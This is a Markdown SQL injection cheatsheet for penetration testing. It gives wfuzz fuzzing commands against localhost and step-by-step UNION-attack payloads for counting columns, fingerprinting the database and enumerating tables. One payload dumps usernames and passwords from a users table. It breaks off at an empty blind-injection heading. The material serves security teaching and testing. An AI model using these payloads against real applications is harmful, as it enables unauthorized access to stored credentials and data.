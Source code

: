 # SQLi

## Cheatsheets

- [Portswigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/blind)

## Detection

### Wordlists
- https://github.com/PenTestical/sqli
- https://github.com/payloadbox/sql-injection-payload-list
- https://0x1.gitlab.io/web-security/web-attack-payloads-wordlist/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### Examples

#### GET Request
```bash
wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/hugeSQL.txt "http://127.0.0.1/index.php?id=FUZZ"
```

#### POST Request
```bash
wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/hugeSQL.txt -d "username=admin\&password=FUZZ" http://127.0.0.1/admin
```

## Techniques

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data)
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic)
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)

### UNION Attacks

For `UNION` query to work, two key requirements must be met:

1. The individual queries must return the same number of columns
2. The data types in each column must be compatible between the individual queries

To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:

1. How many columns are being returned from the original query.
2. Which columns returned from the original query are of a suitable data type to hold the results from the injected query

#### Determine the number of columns required

The first method involves injectin ga series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as: `The ORDER BY position number 3 is out of range of the number of items in the select list.`

The second method involes submitting a series of `UNION SELECT` payloads specifying a different number of null values:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

If the number of nulls does not match the number of columns, the database returns an error, such as: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`


The application might actually return the database error in its HTTP response, but it may also issue a generic error response. In other cases, it may simply return no results at all. Either way, as long as you can detect some difference in the response, you can infer how many columns are being returned from the query. 

#### Finding columns with a useful data type

After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

If the column data type is not compatible with string data, the injected query will cause a database error, such as: `Conversion failed when converting the varchar value 'a' to data type int.` If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data. 

#### Retrieving interesting data

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data. 

After determining the name of the table you would like to dump information from, you are able to retrieve the data stored in the database:

```
' UNION SELECT username, password FROM users--
```

#### Retrieve multiple values within a single column

In some cases the query in the previous example may only return a single column.
You can retrieve multiple values together within this single column by concatenating the values together. 

```
-- Oracle
' UNION SELECT username || '~' || password FROM users--

-- MySQL
' UNION SELECT null,concat(username,'~',password) FROM users--
```

#### Examining the Database

To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

- The type and version of the database software.
- The tables and columns that the database contains.

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works.

- Microsoft SQL : `SELECT @@version`
- Oracle : `SELECT * FROM v$version`
- PostgreSQL : `SELECT version()`

For example, you could use a `UNION` attack with teh following input: `' UNION SELECT @@version--`
When attempting to determine the type of database you are dealing with, don't forget to change the syntax of the comments as well:

- Oracle : `--comment`
- Microsoft `--comment`, `/*comment*/`
- PostgreSQL: `--comment`, `/*comment*/`, `#comment`
- MySQL: `-- comment`, `/*comment*/`

#### Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database. For example, you can query `information_schema.tables` to list the tables in the database: `SELECT * FROM information_schema.tables`

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

You can then query `information_schema.columns` to list the columns in individual tables: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

#### Guides
- [Union Based Oracle Injection](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html)
- [Oracle Database Specific UNION syntax](https://portswigger.net/web-security/sql-injection/union-attacks#determining-the-number-of-columns-required)


### Blind SQL Injection

